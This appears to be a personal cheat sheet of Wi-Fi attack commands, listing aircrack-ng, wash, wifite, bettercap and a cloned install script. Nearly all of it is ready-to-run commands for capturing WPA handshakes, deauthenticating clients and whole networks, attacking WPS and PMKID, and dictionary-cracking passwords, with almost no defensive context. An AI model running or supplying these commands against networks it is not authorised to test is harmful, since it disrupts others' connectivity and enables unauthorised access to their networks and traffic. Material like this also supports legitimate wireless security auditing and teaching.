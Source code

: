 # Wifi Sniffing

Airmon:

	• airmon-ng
	• airmon-ng start wlan0mon
	• airmon-ng stop wlan0mon
	• airmon-ng start wlan0mon 9 (channel 9)
	
Disable all network services for monitor mode:

	• Airmon-ng check kill

Airodump:

	• airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon

Aireplay:

	• aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon

Airdecap-ng:

	• airdecap-ng -e 'the ssid' -p passphrase  tkip.cap

The capture file must contain a valid four-way handshake. For this purpose having (packets 2 and 3) or (packets 3 and 4) will work correctly. In fact, you don't truly need all four handshake packets.

As well, only data packets following the handshake will be decrypted. This is because information is required from the handshake in order to decrypt the data packets.

Wash:

Can be used to know if WPS is actived on router

	• wash -i mon0

Wifite:

Automated tools to get all the handshakes of network we scan.

Can be use with other softwares to send the handshakes in a special format on a website to crack the WI-FI password using a lot of connected servers.

	• sudo wifite --dict '/home/kali/Downloads/custom-smprepchar-app0-100.txt' --clients-only --power 27 --bully --wps --infinite -p 30

Lazy Script:

	• cd (back to user folder)
	• git clone https://github.com/arismelachroinos/lscript.git
	• cd lscript
	• chmod +x install.sh
	• ./install.sh
	

Bettercap:

Get handshakes easily for all networks

	• sudo bettercap --iface wlan1mon
	• help wifi
	• wifi.recon on (wifi sniffing)
	• wifi.show
	• wifi.deauth all (interface deauthentification)
	• set wifi.handshakes '/desiredfolderlocation' (choose directory for hanhshakes)

	• wifi.assoc all (PMKID Attack) (use all or MAC address)
	• wifi.show
